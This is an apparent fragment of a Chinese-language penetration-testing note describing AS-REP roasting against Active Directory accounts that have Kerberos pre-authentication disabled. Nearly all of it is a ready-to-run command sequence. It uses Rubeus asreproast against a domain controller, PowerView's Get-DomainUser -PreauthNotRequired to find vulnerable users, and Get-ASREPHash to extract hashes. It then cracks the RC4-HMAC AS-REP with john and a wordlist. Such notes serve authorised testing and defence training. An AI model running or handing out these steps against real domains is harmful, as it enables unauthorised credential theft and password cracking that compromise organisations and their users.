 	当用户关闭了kerberos预身份认证时可以进行攻击
![image](/assets/Pentest_Note/master/img/378.png)

	>Rubeus.exe asreproast /user:y /dc:10.1.1.100 /domain:zone.com
![image](/assets/Pentest_Note/master/img/379.png)

	或使用Powerview结合https://github.com/gold1029/ASREPRoast
	获取不要求kerberos预身份验证的域内用户
	>Get-DomainUser -PreauthNotRequired -Properties distinguishedname –Verbose
![image](/assets/Pentest_Note/master/img/380.png)

	>Get-ASREPHash -UserName y -Domain zone.com -Verbose
![image](/assets/Pentest_Note/master/img/381.png)

	破解RC4-HMAC AS-REP
	>john hash.txt --wordlist=wordlist.txt
![image](/assets/Pentest_Note/master/img/382.png)
